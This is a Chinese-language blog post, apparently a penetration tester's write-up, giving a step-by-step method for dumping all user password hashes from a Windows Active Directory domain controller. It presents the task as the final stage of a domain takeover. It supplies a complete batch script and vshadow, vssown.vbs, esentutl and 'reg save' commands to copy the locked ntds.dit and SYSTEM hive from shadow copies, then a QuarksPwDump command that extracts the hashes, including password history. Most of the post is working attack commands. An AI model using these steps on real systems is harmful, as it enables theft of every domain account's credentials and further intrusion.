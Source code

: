 ```yaml
---
layout: post
title: 导出域内所有用户hash
date: 2018-12-09 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器——获取域管登录凭证——登录域控导出所有用户hash——完毕  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/quarkspwdump.jpeg?raw=true)

域内用户HASH是存在NTDS.DIT中的， 它的存放位置是C:\Windows\NTDS.DIT。NTDS.DIT在系统运行过程中是被系统锁定的，无法操作，因此第一步是先把ntds.dit复制一份出来，然后导出其中的有效信息。 




### \#0x01 拷贝ntds.dit
拷贝ntds.dit的方法有多种，这里说两种经常使用的。  
#### 一、使用微软官方提供的卷影拷贝工具vshadow.exe复制ntds.dit  

现在官方不提供直接的下载了，可以安装官方JDK，在安装目录下可以找到vshadow.exe，这里要注意操作系统的版本，特别是xp和server 2003。  
利用官方JDK生成vshadow.exe的方法虽然不用担心后门，但是操作实在麻烦，这里提供一个runtime写的工具：ShadowCopy，安装后再安装目录下可以找到个系统版本对应的vshadow.exe。  


为了方便使用vshadow.exe，这里提供一个脚本：ShadowCopy.bat，内容如下：  
```
setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=\windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%
```
执行完ShadowCopy.bat后，ntds.dit变被复制到当前目录。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vshadow_bat.jpeg?raw=true)

在导出hash之前，ntds.dit需要使用esentutl工具修复  
```
esentutl /p /o ntds.dit
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/esentutl.jpeg?raw=true)

导出ntds.dit后为了解密，还需要导出syskey   
```
reg save hklm\system c:\perflogs\system.hive
```

#### 二、使用vssown.vbs复制ntds.dit
vssown.vbs脚本在这里下载的：[vssown.vbs](https://github.com/PythonPig/pentest-tools/blob/master/password-cracking/vssown.vbs)  

查看vssown.vbs的使用方法：  
cscript vssown.vbs，主要的命令如下：  
```
cscript vssown.vbs /start
cscript vssown.vbs /list
cscript vssown.vbs /create c
cscript vssown.vbs /delete id
cscript vssown.vbs /stop
```
1、启动服务  
```
cscript vssown.vbs /start
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20start.jpeg?raw=true)

2、查看系统现有的快照并记录  
```
cscript vssown.vbs /list
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20list.jpeg?raw=true)

3、创建c盘快照  
```
cscript vssown.vbs /create c
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20create.jpeg?raw=true)

4、查看新增的快照  
```
cscript vssown.vbs /list
```
通过与第2步中的快照对比可知哪个快照是新增的，执行命令后最先显示出的快照一般是最新创建的。  
记录最新创建快照的ID和Device Object  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20list2.jpeg?raw=true)

5、从快照中拷贝ntds.dit和syskey  
本次操作需要使用第4步中得到的快照ID和Device Object  
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\ntds\ntds.dit C:\perflogs
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\system32\config\SYSTEM C:\perflogs\system.hive
```
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20copy%20ntds.jpeg?raw=true)  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20copy%20syskey.jpeg?raw=true)

syskey也可以这样导出  
```
reg save hklm\system c:\perflogs\system.hive
```

6、删除快照并停止服务  
```
cscript vssown.vbs /delete {D61DE4C9-029E-42E7-9A93-64529039FD54}
cscript vssown.vbs /stop
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20delete%20stop.jpeg?raw=true)

### \#0x02 从ntds.dit导出所有用户hash
因为ntds.dit文件一般比较大，传回本地不太方便，所以需要在目标服务器上导出用户hash。    

```
QuarksPwDump.exe --dump-hash-domain --with-history --ntds-file c:\perflogs\ntds.dit --system-file c:\perflogs\system.hive -o c:\perflogs\res.txt
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/quarkspwdump.jpeg?raw=true)

一定要注意这里要给绝对路径,选项参数之间只能有一个空格，用到的[QuarksPwDump.exe在这里](https://github.com/quarkslab/quarkspwdump)  

### \#0x03 参考
* [完整导出域内用户hash小记 (vshadow + ShadowCopy + QuarksPwDump)](https://klionsec.github.io/2016/08/14/shadow-copy-hash/)
* [导出域内用户hash的几种方法](https://cloud.tencent.com/developer/article/1165439)  

